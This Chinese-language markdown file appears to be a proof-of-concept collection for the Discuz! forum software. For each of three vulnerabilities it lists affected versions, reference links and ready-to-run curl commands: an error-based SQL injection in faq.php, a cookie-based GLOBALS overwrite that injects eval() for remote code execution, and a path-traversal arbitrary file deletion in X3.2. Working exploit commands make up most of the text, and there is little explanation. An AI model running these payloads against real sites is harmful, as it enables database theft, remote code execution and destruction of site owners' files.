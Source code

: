 ## discuz v7.2 

### faq.php 报错注入

影响版本 

* <= 7.2

参考链接

* [Discuz!7.2 faq.php文件SQL注入漏洞分析及利用实战](http://blog.51cto.com/simeon/1440000)

Poc

```
curl -g '127.0.0.1/faq.php?action=grouppermission&gids[99]=%27&gids[100][0]=%29%20and%20%28select%201%20from%20%28select%20count%28*%29,concat%28user%28%29,floor%28rand%280%29*2%29%29x%20from%20information_schema.tables%20group%20by%20x%29a%29%23'
```

### Discuz! 6.x/7.x 全局变量防御绕过漏洞

影响版本

* 6.X
* 7.X

参考链接

* [Discuz! 6.x/7.x 全局变量防御绕过导致命令执行](https://www.secpulse.com/archives/2338.html)

Poc - 替换帖子为正确地址

```
curl '127.0.0.1/viewthread.php?tid=13&extra=page%3D1' -H 'Cookie: GLOBALS[_DCACHE][smilies][searcharray] = /.*/eui; GLOBALS[_DCACHE][smilies][replacearray] = eval%28%24_POST%5BMH%5D%29%3B' -d 'MH=die(md5(1));'
```

## discuz X3.2

### birthprovince 任意文件删除

影响版本 

* <= X3.2

参考链接

* [Discuz!X前台任意文件删除漏洞重现及分析](http://www.freebuf.com/vuls/149904.html)

Poc

```
设置要删除的文件
curl 'http://127.0.0.1/home.php?mod=spacecp&ac=profile&op=base' -d 'birthprovince=../../../hello.txt&profilesubmit=1&formhash=...' -H 'Cookie: ...''

触发漏洞
curl 'http://127.0.0.1/home.php?mod=spacecp&ac=profile&op=base' -F 'profilesubmit=1' -F 'formhash=...' -F birthprovince=@1.jpg -H 'Cookie: ...'
```



